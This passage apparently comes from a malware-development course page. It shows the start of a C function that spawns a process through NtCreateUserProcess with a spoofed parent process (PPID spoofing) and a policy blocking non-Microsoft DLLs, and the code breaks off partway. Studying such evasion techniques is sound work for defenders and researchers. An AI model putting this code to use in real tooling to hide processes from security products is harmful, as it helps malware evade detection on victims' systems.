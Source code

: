 
#### Results

Invoking `NtCreateUserProcessForBlockDllPolicy` will result in the output below.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/ntcreateuserprocess-819850671-388c86f6-beb3-4009-b03d-2854ea61312e.png)

### PPID Spoofing And Block DLL Policy

Finally, this section merges the two previous implementations into a single one by modifying the `PS_ATTRIBUTE_LIST` structure to accommodate an extra attribute and subsequently invoking the `NtCreateUserProcessForBoth` function as shown below. The `PS_ATTRIBUTE_LIST` structure will require three attributes.

```c
BOOL NtCreateUserProcessForBoth(
	IN      PWSTR   szTargetProcess,
	IN      PWSTR   szTargetProcessParameters,
	IN      PWSTR   szTargetProcessPath,
	IN      HANDLE  hParentProcess,
	OUT     PHANDLE hProcess,
	OUT     PHANDLE hThread
) {
		
	// getting the address of 'RtlCreateProcessParametersEx' and 'NtCreateUserProcess' from ntdll.dll
	fnRtlCreateProcessParametersEx  RtlCreateProcessParametersEx    = (fnRtlCreateProcessParametersEx)GetProcAddress(GetModuleHandle(L"NTDLL"), "RtlCreateProcessParametersEx");
	fnNtCreateUserProcess           NtCreateUserProcess             = (fnNtCreateUserProcess)GetProcAddress(GetModuleHandle(L"NTDLL"), "NtCreateUserProcess");

	if (NtCreateUserProcess == NULL || RtlCreateProcessParametersEx == NULL)
		return FALSE;

	NTSTATUS                        STATUS                      = NULL;
	UNICODE_STRING                  UsNtImagePath               = { 0 },
                                    UsCommandLine               = { 0 },
                                    UsCurrentDirectory          = { 0 };
	PRTL_USER_PROCESS_PARAMETERS    UppProcessParameters        = NULL;
	// the mitigation policy flag (attribute value)
	DWORD64                         dwBlockDllPolicy            = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;
	// allocating a buffer to hold the value of the attribute lists
	PPS_ATTRIBUTE_LIST              pAttributeList              = (PPS_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE_LIST));
	if (!pAttributeList)
		return FALSE;

	// initializing the 'UNICODE_STRING' structures with the inputted paths
	_RtlInitUnicodeString(&UsNtImagePath, szTargetProcess);
	_RtlInitUnicodeString(&UsCommandLine, szTargetProcessParameters);
	_RtlInitUnicodeString(&UsCurrentDirectory, szTargetProcessPath);

	// calling 'RtlCreateProcessParametersEx' to intialize a 'PRTL_USER_PROCESS_PARAMETERS' structure for 'NtCreateUserProcess' 
	STATUS = RtlCreateProcessParametersEx(&UppProcessParameters, &UsNtImagePath, NULL, &UsCurrentDirectory, &UsCommandLine, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROC_PARAMS_NORMALIZED);
	if (STATUS != STATUS_SUCCESS) {
		printf("[!] RtlCreateProcessParametersEx Failed With Error : 0x%0.8X \n", STATUS);
		goto _EndOfFunc;
	}


	// setting the length of the attribute list
	pAttributeList->TotalLength                     = sizeof(PS_ATTRIBUTE_LIST);
```